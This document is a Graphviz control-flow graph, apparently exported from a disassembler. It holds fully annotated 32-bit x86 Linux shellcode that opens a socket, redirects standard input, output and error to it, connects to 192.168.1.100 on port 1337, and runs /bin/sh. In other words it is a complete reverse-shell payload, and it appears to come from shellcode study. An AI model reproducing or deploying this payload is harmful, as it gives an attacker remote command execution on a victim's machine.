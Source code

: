 digraph code {
	graph [bgcolor=azure fontsize=8 fontname="Courier" splines="ortho"];
	node [fillcolor=gray style=filled shape=box];
	edge [arrowhead="normal"];
	"0x00000000" -> "0x00000011" [color="#005f87"];
	"0x00000000" [URL="fcn.00000000/0x00000000", fillcolor="white",color="#e03030", fontname="Courier",label=";-- oeax:\l;-- eax:\l;-- ebx:\l;-- ecx:\l;-- edx:\l;-- esi:\l;-- edi:\l;-- eip:\l;-- eflags:\l(fcn) fcn.00000000 68\l  fcn.00000000 ();\l0x00000000      xor  ebx, ebx      ; EBX = 0x00\l0x00000002      mul  ebx           ; EBX * EAX => EAX = 0x00\l0x00000004      push ebx           ; any protocol\l0x00000005      inc  ebx           ; 0x1 - SYS_SOCKET\l0x00000006      push ebx           ; 0x1 SOCK_STREAM\l0x00000007      push 2             ; 2 ; 0x2 AF_INET\l0x00000009      mov  ecx, esp      ; call args\l0x0000000b      mov  al, 0x66      ; 'f' ; 102 ; sys_socketcall\l0x0000000d      int  0x80          ; SYS_SOCKETCALL -> SYS_SOCKET\l0x0000000f      xchg eax, ebx      ; move file descriptor into EBX\l0x00000010      pop  ecx           ;  call args\l"]
	"0x00000011" -> "0x00000011" [color="#5f8700"];
	"0x00000011" -> "0x00000018" [color="#e03030"];
	"0x00000011" [URL="fcn.00000000/0x00000011", fillcolor="white",color="#e03030", fontname="Courier",label="0x00000011      mov  al, 0x3f      ; '?' ; 63 ; dup2\l0x00000013      int  0x80          ; SYS_DUP2\l0x00000015      dec  ecx           ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin\l0x00000016      jns  0x11          ; jmp if sign is positive\l"]
	"0x00000018" [URL="fcn.00000000/0x00000018", fillcolor="palegreen",color="#e03030", fontname="Courier",label="0x00000018      push 0x6401a8c0    ; 100 1 168 192 (decimal)\l0x0000001d      push 0x39050002    ; 0x3905 - 1337 0x0 0x2 - AF_INET\l0x00000022      mov  ecx, esp      ; function args\l0x00000024      mov  al, 0x66      ; 'f' ; 102 ; SYS_SOCKETCALL\l0x00000026      push eax           ; 0x1\l0x00000027      push ecx           ; function args\l0x00000028      push ebx           ; file descriptor\l0x00000029      mov  bl, 3         ; 0x3 - SYS_CONNECT\l0x0000002b      mov  ecx, esp\l0x0000002d      int  0x80          ; SYS_SOCKETCALL -> SYS_CONNECT\l0x0000002f      push edx           ; 0x0\l0x00000030      push 0x68732f6e    ; 'n/sh'\l0x00000035      push 0x69622f2f    ; '//bi'\l0x0000003a      mov  ebx, esp      ; //bin/sh0x00\l0x0000003c      push edx           ; 0x0\l0x0000003d      push ebx           ; file descriptor\l0x0000003e      mov  ecx, esp      ; address of //bin/sh, 0x00\l0x00000040      mov  al, 0xb       ; 11 ; SYS_EXECVE\l0x00000042      int  0x80          ; SYS_EXECVE //bin/sh\l"]
}
